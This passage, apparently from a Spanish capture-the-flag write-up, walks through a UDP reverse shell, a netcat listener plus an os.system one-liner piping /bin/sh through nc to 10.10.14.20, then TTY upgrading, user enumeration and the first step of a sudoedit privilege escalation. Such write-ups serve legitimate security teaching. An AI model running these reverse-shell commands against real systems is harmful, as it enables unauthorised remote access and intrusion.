 ### Reverse shell por UDP {-}

1. En la maquina de atacante con el parametro `-u`

    ```bash
    nc -u -nlvp 443
    ```

1.en la consola interactiva

    ```python
    os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -u 10.10.14.20 443 >/tmp/f")
    ```

Y ya esta...

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### Investigamos la maquina {-}

```bash
whoami

#Output
werkzeug

cd /home/alekos
cat user.txt
```

No podemos leer la flag. Quiere decir que vamos a tener que convertirnos en el usuario alekos.

```bash
id
sudo -l
```

El comando `sudo -l` nos dice que podemos ejecutar `sudoedit /var/www/*/*/layout.html` como el usuario alekos. ## Escalada de privilegios {-}

### Escalada de privilegios al usuario alekos {-}

```bash
ls -l /var/www
```

